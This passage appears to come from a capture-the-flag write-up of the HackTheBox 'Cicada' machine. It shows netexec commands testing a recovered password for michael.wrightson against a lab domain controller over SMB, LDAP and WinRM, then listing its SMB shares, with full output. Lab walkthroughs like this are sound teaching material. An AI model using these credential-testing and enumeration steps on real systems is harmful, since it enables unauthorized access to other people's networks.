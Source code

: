 These creds work for SMB (above), as well as LDAP:

```

oxdf@hacky$ netexec ldap CICADA-DC -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8

```

They don’t work over WinRM (the user likely isn’t an administrator or in the remote users group):

```

oxdf@hacky$ netexec winrm CICADA-DC -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8

```

## Auth as david.orelious

### Enumeration

#### Shares

michael.wrightson doesn’t have any additional share access beyond what the guest user has:

```

oxdf@hacky$ netexec smb CICADA-DC -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share

```
